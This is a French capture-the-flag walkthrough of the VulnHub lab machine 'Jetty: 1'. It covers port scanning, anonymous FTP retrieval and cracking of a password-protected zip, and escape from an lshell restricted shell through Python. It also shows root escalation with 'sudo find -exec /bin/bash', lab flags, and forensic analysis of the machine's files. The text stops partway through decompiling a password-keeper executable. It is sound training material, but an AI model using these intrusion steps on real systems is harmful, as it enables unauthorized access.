




# Jetty: 1

[Jetty: 1](https://www.vulnhub.com/entry/jetty-1,621/) est une machine virtuelle vulnérable, conçue par [MrSquid](https://twitter.com/mrsquid25) et publiée sur VulnHub au mois de décembre 2020. L'objectif, comme toujours, est de trouver et d'exploiter des vulnérabilités sur la VM fournie, afin d'obtenir les privilèges d'administration (root) et de récupérer un flag, preuve de l'intrusion et synonyme de validation du challenge. Cependant, le créateur de la VM nous propose un exercice supplémentaire d'investigation numérique (_forensics_)... c'est parti ! Attention, spoilers...

## Description du challenge

_The company Aquarium Life S.L. has contacted you to perform a pentest against one of their machines. They suspect that one of their employees has been committing fraud selling fake tickets. They want you to break into his computer, escalate privileges and search for any evidences that proves this behaviour._

L'entreprise Aquarium Life S.L. soupçonne l'un de ses employés de vendre de faux billets, et nous demande d'investiguer sur son poste informatique, et ainsi de vérifier si la fraude est avérée. Chouette, je vais peut-être pouvoir mettre à profit mes lectures du [blog de Zythom](https://zythom.blogspot.com/2010/02/un-peu-de-technique.html) ! Enfin, la description du challenge nous informe que l'employé avait pour identifiant ```Squiddie``` et qu'il était en charge de la vente de billets à l'aquarium.

## Recherche d'informations avec netdiscover et nmap

```console
root@kali:~# uname -srm
Linux 5.9.0-kali4-amd64 x86_64

root@kali:~# lsb_release -a
No LSB modules are available.
Distributor ID: Kali
Description:    Kali GNU/Linux Rolling
Release:        2020.4
Codename:       kali-rolling

root@kali:~# ip -4 addr | grep -oP '(?<=inet\s)\d+(\.\d+){3}'
127.0.0.1
192.168.56.113
```

D'habitude, l'outil [__netdiscover__](https://github.com/alexxy/netdiscover) me permet de retrouver l'adresse IP de la VM cible, mais aucun résultat n'est affiché cette fois-ci. Il s'agirait d'un [petit souci avec libpcap](https://forums.kali.org/showthread.php?45949-netdiscover-not-working-under-Kali-2019-4&p=89468#post89468) qui se règle assez facilement. L'outil [__nmap__](https://nmap.org/book/man.html) permet également d'obtenir l'adresse IP de la machine Jetty : 192.168.56.112.

```console
root@blinils:~# netdiscover -r 192.168.56.0/24

Currently scanning: Finished!   |   Screen View: Unique Hosts
0 Captured ARP Req/Rep packets, from 0 hosts.   Total size: 0
_____________________________________________________________________________
  IP            At MAC Address     Count     Len  MAC Vendor / Hostname
-----------------------------------------------------------------------------


root@kali:~# wget -q http://ftp.fr.debian.org/debian/pool/main/libp/libpcap/libpcap0.8_1.8.1-6_amd64.deb

root@kali:~# dpkg -i /media/share/libpcap0.8_1.8.1-6_amd64.deb
(Reading database ... 330848 files and directories currently installed.)
Preparing to unpack .../libpcap0.8_1.8.1-6_amd64.deb ...
Unpacking libpcap0.8:amd64 (1.8.1-6) over (1.8.1-6) ...
Setting up libpcap0.8:amd64 (1.8.1-6) ...
Processing triggers for libc-bin (2.31-5) ...
Processing triggers for man-db (2.9.3-2) ...


root@blinils:~# netdiscover -r 192.168.56.0/24

Currently scanning: Finished!   |   Screen View: Unique Hosts
3 Captured ARP Req/Rep packets, from 3 hosts.   Total size: 180
_____________________________________________________________________________
  IP            At MAC Address     Count     Len  MAC Vendor / Hostname
-----------------------------------------------------------------------------
192.168.56.1    0a:00:27:00:00:10      1      60  Unknown vendor
192.168.56.100  08:00:27:38:27:38      1      60  PCS Systemtechnik GmbH
192.168.56.112  08:00:27:92:44:26      1      60  PCS Systemtechnik GmbH


root@kali:~# nmap -sn 192.168.56.0/24
--snip--
Nmap scan report for 192.168.56.112
Host is up (0.0010s latency).
MAC Address: 08:00:27:92:44:26 (Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.56.113
Host is up.
Nmap done: 256 IP addresses (4 hosts up) scanned in 1.97 seconds
```

Un scan [__nmap__](https://nmap.org/book/man.html) va nous permettre à la fois d'identifier les services installés sur le serveur, et d'obtenir des informations sur le système d'exploitation. Au menu de cette VM : un accès en FTP (port 21) et un serveur Web Apache (port 80). Par ailleurs, il est possible de se connecter à distance avec SSH au serveur Jetty, mais sur un port non-standard : 65507 au lieu de 22.

```console
root@kali:~# nmap -sT -sV -p- 192.168.56.112
Nmap scan report for 192.168.56.112
Host is up (0.00047s latency).
Not shown: 65532 closed ports
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
65507/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
MAC Address: 08:00:27:92:44:26 (Oracle VirtualBox virtual NIC)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## Connexion au serveur FTP anonyme et récupération du fichier sshpass.zip

Le site Web ne consiste qu'en une seule page avec une image au format PNG. Le seul fichier intéressant trouvé par un scan [DIRB](https://tools.kali.org/web-applications/dirb) est ```robots.txt``` mais il mène à de fausses pistes. D'autre part, l'étude stéganographique de l'image n'a a priori rien révélé de croustillant ou de pertinent pour la suite, en tout cas avec les outils habituels tels que [binwalk](https://github.com/ReFirmLabs/binwalk/wiki/Quick-Start-Guide), [exiftool](https://exiftool.org/), [hachoir-subfile](https://hachoir.readthedocs.io/en/latest/subfile.html), [foremost](http://foremost.sourceforge.net/), [zsteg](https://github.com/zed-0xff/zsteg) ou [StegSolve](http://www.caesum.com/handbook/stego.htm).


Mon attention s'est alors portée sur le serveur FTP, et cela tombe plutôt bien : comme il est en accès libre ([_anonymous FTP_](https://en.wikipedia.org/wiki/File_Transfer_Protocol#Anonymous_FTP)), il est possible de s'y connecter sans identifiants, et de récupérer un fichier ```README.txt``` et une archive ```sshpass.zip``` protégée par un mot de passe.

```console
root@kali:~# ftp 192.168.56.112
Connected to 192.168.56.112.
220 (vsFTPd 3.0.3)
Name (192.168.56.112:root): anonymous
331 Please specify the password.
Password: [anonymous]
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
ftp> ls -al
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Oct 06  2018 .
drwxr-xr-x    2 ftp      ftp          4096 Oct 06  2018 ..
-rwxrwxrwx    1 ftp      ftp           306 Oct 06  2018 README.txt
-rwxrwxrwx    1 ftp      ftp           226 Oct 06  2018 sshpass.zip
226 Directory send OK.
ftp> 
ftp> get README.txt
local: README.txt remote: README.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for README.txt (306 bytes).
226 Transfer complete.
306 bytes received in 0.05 secs (6.5269 kB/s)
ftp> get sshpass.zip
local: sshpass.zip remote: sshpass.zip
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for sshpass.zip (226 bytes).
226 Transfer complete.
226 bytes received in 0.00 secs (407.9540 kB/s)
```

## Cassage du mot de passe du fichier sshpass.zip

À la lecture du ```README.txt``` il semblerait que Henry n'ait pas suivi les consignes de Michael. Quant à l'archive ```sshpass.zip``` elle contient le mot de passe du compte SSH de Henry, mais il faudra d'abord trouver le mot de passe générique de l'entreprise.

```console
root@kali:~# cat README.txt 
Hi Henry, here you have your ssh's password.
As you can see the file is encrypted with the default company's password.
Please, once you have read this file, run the following command on your computer to close the FTP server on your side.
IT IS VERY IMPORTANT!!
CMD: service ftp stop.
Regards, Michael.

root@kali:~# unzip sshpass.zip 
Archive:  sshpass.zip
[sshpass.zip] sshpass.txt password: 
   skipping: sshpass.txt             incorrect password
```

Plusieurs méthodes sont possibles : outre l'outil spécialisé [__fcrackzip__](https://allanfeid.com/content/cracking-zip-files-fcrackzip) qui a été si pratique sur d'autres challenges, il existe un script nommé [__zip2john__](https://github.com/openwall/john/blob/bleeding-jumbo/src/zip2john.c) qui permet de calculer le hash d'un fichier ZIP, afin que l'outil [__John The Ripper__](https://www.openwall.com/john/) puisse le traiter. Le pass trouvé ```seahorse!``` permet ainsi d'ouvrir l'archive et de récupérer le mot de passe ```Squ1d4r3Th3B3$t0fTh3W0rLd``` du compte de Henry.

```console
root@kali:~# fcrackzip -u -D -p '/usr/share/wordlists/rockyou.txt' sshpass.zip
PASSWORD FOUND!!!!: pw == seahorse!

root@kali:~# zip2john sshpass.zip > sshpass.john
ver 1.0 efh 5455 efh 7875 sshpass.zip/sshpass.txt
PKZIP Encr: 2b chk, TS_chk, cmplen=38, decmplen=26, crc=CA21C815

root@kali:~# john sshpass.john --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
seahorse!        (sshpass.zip/sshpass.txt)
1g 0:00:00:00 DONE (2020-12-12 12:12) 2.777g/s 3640Kp/s 3640Kc/s 3640KC/s seank1..sayonara15
Use the "--show" option to display all of the cracked passwords reliably
Session completed

root@kali:~# unzip -P seahorse! sshpass.zip 
Archive:  sshpass.zip
 extracting: sshpass.txt

root@kali:~# cat sshpass.txt 
Squ1d4r3Th3B3$t0fTh3W0rLd
```

## Évasion du shell restreint lshell et élévation de privilèges (root)

Le compte Squiddie dispose d'un [environnement restreint](https://en.wikipedia.org/wiki/Restricted_shell) (en l'occurrence [lshell](https://github.com/ghantoos/lshell)). Contrairement aux shells habituels, plusieurs restrictions sont mises en place ; citons par exemple l'interdiction d'afficher le contenu d'un fichier ou celle de modifier des variables d'environnement.

```console
root@kali:~# sshpass -p 'Squ1d4r3Th3B3$t0fTh3W0rLd' ssh squiddie@192.168.56.112 -p 65507
Welcome to Ubuntu 18.04.1 LTS (GNU/Linux 4.15.0-36-generic x86_64)
--snip--
You are in a limited shell.
Type '?' or 'help' to get the list of allowed commands

squiddie:~$ help
cd  clear  exit  help  history  lpath  ls  lsudo  pwd  python  whoami

squiddie:~$ cat /etc/passwd
*** forbidden command -> "cat"
*** You have 1 warning(s) left, before getting kicked out.
This incident has been reported.

squiddie:~$ echo /etc/passwd
*** forbidden command -> "echo"
*** You have 0 warning(s) left, before getting kicked out.
This incident has been reported.

squiddie:~$ vi
*** forbidden command -> "vi"
*** Kicked out
Connection to 192.168.56.112 closed.
```

Cependant, l'article [_Escaping Restricted Linux Shells_](https://www.sans.org/blog/escaping-restricted-linux-shells/) posté sur le site du SANS Institute par Doug Stilwell donne une astuce très précieuse : il est possible d'élever nos privilèges et d'obtenir un shell moins restreint à partir du binaire Python, l'un des seuls autorisés pour le compte de Henry.

```console
squiddie:~$ whoami
squiddie

squiddie:~$ python
Python 2.7.15rc1 (default, Apr 15 2018, 21:51:34) 
[GCC 7.3.0] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>>
>>> import os; os.system("/bin/bash")

squiddie@jetty:~$ 

squiddie@jetty:~$ uname -srm
Linux 4.15.0-36-generic x86_64

squiddie@jetty:~$ echo $SHELL
/usr/bin/lshell
```

D'autre part, la commande ```sudo -l``` affiche la configuration sudo pour l'utilisateur courant ; l'utilisateur ```squiddie``` est autorisé à exécuter la commande ```/usr/bin/find``` via sudo. Un petit tour sur l'excellent site [GTFOBins](https://gtfobins.github.io) nous permet successivement [d'obtenir un shell](https://gtfobins.github.io/gtfobins/python/) à l'aide de Python, puis [d'élever nos privilèges](https://gtfobins.github.io/gtfobins/find/) et passer root avec le binaire find.

```console
squiddie@jetty:~$ id
uid=1001(squiddie) gid=1001(squiddie) groups=1001(squiddie)

squiddie@jetty:~$ sudo -l
Matching Defaults entries for squiddie on jetty:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User squiddie may run the following commands on jetty:
    (ALL) NOPASSWD: /usr/bin/find

squiddie@jetty:~$ sudo /usr/bin/find . -exec /bin/bash \; -quit

root@jetty:~# id
uid=0(root) gid=0(root) groups=0(root)
```

## Forensics! Analyse des fichiers stockés dans /root/Documents/

À présent, il s'agit de passer à la recherche d'éléments de preuve sur le poste de Henry. Pour commencer, les deux flags de résolution du challenge ```user.txt``` et ```proof.txt``` sont retrouvés parmi d'autres fichiers texte : un mémo pour une dénommée Mary, et un message de Henry destiné à Michael.

```console
root@jetty:~# cat /home/squiddie/Desktop/user.txt 
dd69f649f3e5159ddd10b83b56b2dda2

root@jetty:~# cat /root/Desktop/proof.txt 
136d05d01c8af5d3e3520d2c270f91f1

root@jetty:~# cat /root/Desktop/note.txt 
Say to Mary that I want to go on vacation on 2 weeks.

root@jetty:/root# cat /home/squiddie/Desktop/To_Michael.txt 
Hi Michael,
When I run the command you ask me to, an error occurr. Can you help me with this?
Regards,
Henry
```

On retrouve un grand nombre de fichiers dans le répertoire du compte ```root``` relatifs à la billetterie de l'aquarium...

```console
root@jetty:~# tar -czvf copy.tar.gz /root/Documents/
tar: Removing leading `/' from member names
/root/Documents/
/root/Documents/Ticket_Toulouse.PDF
/root/Documents/Tickets_cooked/
/root/Documents/Tickets_cooked/adult_ticket_f.PDF
/root/Documents/Tickets_cooked/child_ticket_f.PDF
/root/Documents/.docs/
/root/Documents/.docs/MoneyBalance.xlsx
/root/Documents/.docs/Password_keeper/
/root/Documents/.docs/Password_keeper/database.txt
/root/Documents/.docs/Password_keeper/usage.txt
/root/Documents/.docs/Password_keeper/password_keeper.exe
/root/Documents/.docs/Pending_to_erase.xlsx
/root/Documents/.docs/AccountabiltyReportMorning-1112018.xlsx
/root/Documents/.docs/Accountabilty_not_cooked.xlsx

root@jetty:~# python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

... que l'on peut rapatrier via un serveur Web monté spécifiquement pour l'occasion.

```console
root@kali:~# wget -q http://192.168.56.112:8000/copy.tar.gz
root@kali:~# file copy.tar.gz 
copy.tar.gz: gzip compressed data, last modified: Sat Dec 12 12:12:12 2020, from Unix, original size modulo 2^32 5222400
```

Parmi ces fichiers, on trouve un billet de train Londres-Toulouse composté en gare de Marseille Saint-Charles...


... avec deux spécimens de billets pour l'aquarium : un enfant et un adulte, ainsi que plusieurs tableurs Excel. Ce challenge m'aura permis d'exercer mon vocabulaire anglais ; ainsi, le mot « _cooked_ » du répertoire ```Tickets_cooked``` a plusieurs définitions en anglais, dont l'une d'elles est « _partially or wholly fabricated, falsified_ » ce qui laisserait effectivement penser à une possible fraude.


Tous les tableurs Excel sont protégés par un mot de passe, sauf un nommé ```AccountabiltyReportMorning-1112018.xlsx``` qui consigne les ventes réalisées le 1er novembre 2018 : 79 visiteurs pour un montant de 1100 euros. Manque de chance, les deux mots de passe trouvés à date ```seahorse!``` et ```Squ1d4r3Th3B3$t0fTh3W0rLd``` ne fonctionnent pas, il faut trouver autre chose.



Heureusement, le script [office2john.py](https://github.com/openwall/john/blob/bleeding-jumbo/run/office2john.py) arrive à la rescousse ! Seul hic : cela va prendre un temps considérable si l'on en juge par la date (ETA) fournie par le script. Trois possibilités s'offrent à nous : s'armer de patience, utiliser un dictionnaire moins fourni car celui utilisé ```rockyou.txt``` contient pas moins de 14 millions de mots de passe, ou trouver une autre méthode pour ouvrir ces tableurs Excel.

```console
root@kali:~# /usr/share/john/office2john.py *.xlsx
Accountabilty_not_cooked.xlsx:$office$*2013*100000*256*16*643d291147ffacc81179253adfb888ae*9807281195b7576962640f565539ac81*83c54074411b229d0e39c694a2044b59c11dfd4e6e1a7fa62a35594621d80ff7
AccountabiltyReportMorning-1112018.xlsx : zip container found, file is unencrypted?, invalid OLE file!
MoneyBalance.xlsx:$office$*2013*100000*256*16*d0a97b1844efb0c3c59fdda93e13a786*658a86b5acced7014a10fd699ea5b3be*1b8ceff3d9eebee1d5b126282b4eeb4515c39fbc9b3ce4c52404a2feeba8639b
Pending_to_erase.xlsx:$office$*2013*100000*256*16*45d026de2269ee60c0babebd4dcbc848*5a74000d11d87984c5851619971d0d4b*772cfede245841da0988fa34f8ea1335e748e5df8486ba15d9c0200ca991bbd7

root@kali:~# /usr/share/john/office2john.py *.xlsx > hashes.john
AccountabiltyReportMorning-1112018.xlsx : zip container found, file is unencrypted?, invalid OLE file!

root@kali:~# wc -l /usr/share/wordlists/rockyou.txt
14344391 /usr/share/wordlists/rockyou.txt

root@kali:~# john hashes.john --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 3 password hashes with 3 different salts (Office, 2007/2010/2013 [SHA1 256/256 AVX2 8x / SHA512 256/256 AVX2 4x AES])
Cost 1 (MS Office version) is 2013 for all loaded hashes
Cost 2 (iteration count) is 100000 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:46 0.01% (ETA: 2021-01-01 01:01) 0g/s 50.03p/s 150.4c/s 150.4C/s skyblue..xiomara
Session aborted
```

## Forensics! Investigations menées sur password_keeper.exe (partie 1/2)

Pour retrouver les mots de passe des tableurs Excel, il va falloir tester le fonctionnement de ```password_keeper.exe``` !

```console
root@kali:~# cat usage.txt 
Usage: 
*Linux: wine password_keeper.exe (database.txt must be in the same folder as the password_keeper.exe)
*Windows: password_keeper.exe (database.txt must be in the same folder as the password_keeper.exe)
This program was compiled using pyinstaller. 

root@kali:~# cat database.txt 
instagram T9Y0Ku/oDv80H8CUzBKkwQ==
facebook IXKnuKh73jCOKcEZAaHnIQ==
Accountabilty_not_cooked rbRH72cf3UiHXcmQB6o0OA==
MoneyBalance rRd3m80KzzTik3Eu9BRWy95GsORKwD+adfTUfPLaxVk=
Pending_to_erase aneylFYmV/jz/7g5j+Ck15oreK1VhmaKmTwa8cdSnpY=

root@kali:~# wine password_keeper.exe 
Welcome to the best password keeper ever!
__        __         _                _  __                         
\ \      / /__  __ _| | ___   _      | |/ /___  ___ _ __   ___ _ __ 
 \ \ /\ / / _ \/ _` | |/ / | | |_____| ' // _ \/ _ \ '_ \ / _ \ '__|
  \ V  V /  __/ (_| |   <| |_| |_____| . \  __/  __/ |_) |  __/ |   
   \_/\_/ \___|\__,_|_|\_\__,  |     |_|\_\___|\___| .__/ \___|_|   
                          |___/                    |_|   

Choose what you want to do: 
1) See your passwords!
2) Generate a cipher-password
3) Close
Insert your selection here --> 1

Showing content of your secret passwords...

Insert password: test

Tag: Instagram Password: WRONG 
Tag: Facebook  Password: PASSWORD 
Tag: SSH       Password: TRY 
Tag: root      Password: HARDER! 


Press any button to return to the menu...
```

 Les mots de passe ```seahorse!``` et ```Squ1d4r3Th3B3$t0fTh3W0rLd``` ont été testés sans succès. J'avais même trouvé le fichier ```/var/www/html/recoverpassword.txt``` lors de ma première connexion au serveur, et je l'avais mis de côté pour une étape ultérieure... mais même ce mot de passe titanesque ne fonctionne pas pour débloquer ce Weaky-Keeper... à suivre !

 ```console
 root@jetty:/var/www/html# cat recoverpassword.txt 
Backup password:

'&%$#"!~}|{zyxwvut210/.-,+k)(!Efedcba`_^]\[ZYXWVUTpohmlkjihg`&GFEDCBA@?>=<;:
9876543210/.-,+*)('&%$#"!~}|{zyxwvutsrqponmlkjihgfedcba`_^]\[ZYXWmrkponmlkdc
b(`_dc\"`BX|?>Z<RWVUNSRKoONGLKDh+*)('&BA:?>=<;:92Vw/43,10)Mnmlkjihgfedcba`_^
]\[ZYXWVUTSRQPONMLKJIHGFEDCBA@?>=<;:9UTSRQ3ONMLKJCg*)('&%$#"!~}|{zyxwvutsrq/
(-,+*)('&}|B"b~}v{ts9wputsrqj0QPONMLKJIHGFEDCBA@?>=<;:9876543210/.-,+*)('&%$
#"!~}|{zyxwvutsr0/.-,+*)(!~%|Bcba`_^]\[ZYXWVUTSRQPONMLKJIHGFEDCBA@?>=<;:9876
543210/.-,+*)('&B$:?>=<;:3270Tu-,+O/.n,%Ijihgfedcba`_^]\[ZYXWVUTSonmlkMibgf_
^$EaZ_^]VUy<XWPOs6543210/.-,+*)('&%$#"!~}|{zyxwvutsrqponmlkjihgfedcba`_^]\[Z
YXWVUTSRQPONjihgfedcb[ZBX|\UZYRv9876543210/.-,+*)('&B$@?>=<5:381Uvutsrqpo-,+
k)"'&%|{Aba`_^]yxwYutsrqpi/PONMLKJIHGFEDCBA@?>=<;:9876543210/.-,+*)('&%$#"!~
}|{zyxwvutsrqponmlkjihgfedcba`_{]sxwvutslkji/PONMLKaf_^]ba`_^W{[ZYXWPOsMRQJI
mGLKJIHG@dDCB;:9]~6;:92Vwvutsrqponmlkjihgfe#"!~}|{zyxq7utsrTpong-NMLKJIHGFED
CBA@?>=<;:9876543210/.-,+*)('&%$#"!~}|{zyxwvutsrqponmlkjihgfedcba`_^]sxwvuts
rqjihg-,w
```

## Forensics! Analyse des fichiers stockés dans /home/squiddie/Documents/

En attendant, au tour du répertoire ```/home/squiddie``` d'être analysé ! Six fichiers sont stockés dans les Documents de Squiddie : [```adult_ticket_f.PDF```](files/adult_ticket_f.PDF), [```adult_ticket.PDF```](files/adult_ticket.PDF), [```child_ticket_f.PDF```](files/child_ticket_f.PDF), [```child_ticket.PDF```](files/child_ticket.PDF), [```laboral_calendar_2018.pdf```](files/laboral_calendar_2018.pdf) et [```ticket_prices.PNG```](files/ticket_prices.PNG), qui nécessitent d'être analysés et comparés à ceux trouvés dans le répertoire ```/root```.

```console
root@jetty:~# ls -laR /home/squiddie/Documents/
/home/squiddie/Documents/:
total 900
drwxr-xr-x  3 squiddie squiddie   4096 Dec 27 17:25 .
drwxr-xr-x 14 squiddie squiddie   4096 Dec 27 17:03 ..
-rw-r--r--  1 squiddie squiddie  28307 Oct  9  2018 laboral_calendar_2018.pdf
-rw-r--r--  1 squiddie squiddie 880236 Oct 22  2018 ticket_prices.PNG
drwxr-xr-x  2 squiddie squiddie   4096 Oct 22  2018 Tickets

/home/squiddie/Documents/Tickets:
total 196
drwxr-xr-x 2 squiddie squiddie  4096 Oct 22  2018 .
drwxr-xr-x 3 squiddie squiddie  4096 Dec 27 17:25 ..
-rw-r--r-- 1 squiddie squiddie 45676 Oct  7  2018 adult_ticket_f.PDF
-rw-r--r-- 1 squiddie squiddie 45745 Oct  7  2018 adult_ticket.PDF
-rw-r--r-- 1 squiddie squiddie 45888 Oct  7  2018 child_ticket_f.PDF
-rw-r--r-- 1 squiddie squiddie 44354 Oct  7  2018 child_ticket.PDF
```

Première remarque : les tickets trouvés dans le répertoire de ```root``` sont identiques à ceux trouvés dans le répertoire de Squiddie. 

```console
root@jetty:~# sha256sum /root/Documents/Tickets_cooked/*
090e2a5bb3ea444668ff3cf119a13015acdc7c75b56281b35582a3d654b36556  /root/Documents/Tickets_cooked/adult_ticket_f.PDF
c79f74fa899e50a380733dfbb3e12213070e18a77ab36989c537bd72bd4a980b  /root/Documents/Tickets_cooked/child_ticket_f.PDF
                
root@jetty:~# sha256sum /home/squiddie/Documents/Tickets/*
090e2a5bb3ea444668ff3cf119a13015acdc7c75b56281b35582a3d654b36556  /home/squiddie/Documents/Tickets/adult_ticket_f.PDF
6cb8261e31adcb50385926408452c86383b990e75e1d2fa6967bff7041c786de  /home/squiddie/Documents/Tickets/adult_ticket.PDF
c79f74fa899e50a380733dfbb3e12213070e18a77ab36989c537bd72bd4a980b  /home/squiddie/Documents/Tickets/child_ticket_f.PDF
aa793e9519b6f7fd1129c881d00a45d28c791d79dc58aec7444e4a01feb6ee58  /home/squiddie/Documents/Tickets/child_ticket.PDF
```

Deuxième remarque : deux autres formats de tickets sont stockés dans le répertoire de ```squiddie``` sans le suffixe ```_f```.

La seule différence visible est le numéro grisé en haut à droite, présent sur ```adult_ticket_f.PDF``` mais manquant sur ```adult_ticket.PDF```.


Troisième remarque : la note de Michael date du 22 octobre 2018, date à laquelle il souhaite partir en congés pendant deux semaines. Or le fichier ```AccountabiltyReportMorning-1112018.xlsx``` indique des ventes en date du jeudi 1er novembre 2018 ; on ignore cependant s'il s'agit de ventes physiques, ce qui serait pour le coup suspect (vacances + jour férié en France), ou réalisées en ligne sur le site Web de l'aquarium.

```console
root@jetty:~# ls -l /root/Desktop/
total 8
-rw-r--r-- 1 root root 54 Oct 22  2018 note.txt
-rw-r--r-- 1 root root 33 Nov 11  2018 proof.txt
```

Quatrième remarque : le billet de train trouvé sur le poste de Henry est pour un voyage Londres-Toulouse en date du 14 novembre... 2013, si l'on en juge la date au format DDMMYY en bas du billet. D'autre part, le compostage a été fait le 14 octobre 2013 en gare de Marseille Saint-Charles. L'année d'émission du billet est étrange, est-ce une coquille dans le challenge ou une fausse piste ?


Cinquième remarque : la devise est différente selon si on se réfère au tableau des prix (en livres sterling) ou au tableur des ventes (en euros). Enfin, les prix de groupe n'ont pas été appliqués le 1er novembre ; ainsi, les 14 billets enfants vendus à 13h32 ont rapporté 140 euros au lieu de 70 pounds.


Il me restera l'énigme du gestionnaire de mots de passe à résoudre. Ces tableurs Excel protégés par mot de passe doivent contenir les derniers éléments susceptibles de prouver la fraude de l'employé incriminé, en tout cas il y a déjà des éléments troublants... à suivre !

## Forensics! Investigations menées sur password_keeper.exe (partie 2/2)

Voilà la suite et la fin de ce _walkthrough_ : puisque le fichier exécutable ```password_keeper.exe``` a été généré avec [pyinstaller](https://www.pyinstaller.org/), le script Python d'origine ```password_keeper.py``` pourra être obtenu successivement grâce à [pyinstxtractor](https://github.com/extremecoders-re/pyinstxtractor) conçu par [Extreme Coders](https://0xec.blogspot.com/p/contact.html), puis grâce au décompilateur [uncompyle6](https://pypi.org/project/uncompyle6/) de [Rocky Bernstein](https://rocky.github.io/).

```console
root@kali:~# python pyinstxtractor.py 
[*] Usage: pyinstxtractor.py <filename>

root@kali:~# python pyinstxtractor.py password_keeper.exe 
[+] Processing password_keeper.exe
[+] Pyinstaller version: 2.1+
[+] Python version: 27
[+] Length of package: 4595178 bytes
[+] Found 58 files in CArchive
[+] Beginning extraction...please standby
[+] Possible entry point: pyiboot01_bootstrap.pyc
[+] Possible entry point: password_keeper.pyc
[+] Found 274 files in PYZ archive
[+] Successfully extracted pyinstaller archive: password_keeper.exe
You can now use a python decompiler on the pyc files within the extracted directory

root@kali:~# uncompyle6 password_keeper.exe_extracted/password_keeper.pyc > password_keeper.py

root@kali:~# head -n5 password_keeper.py 
# uncompyle6 version 3.7.4
# Python bytecode 2.7 (62211)
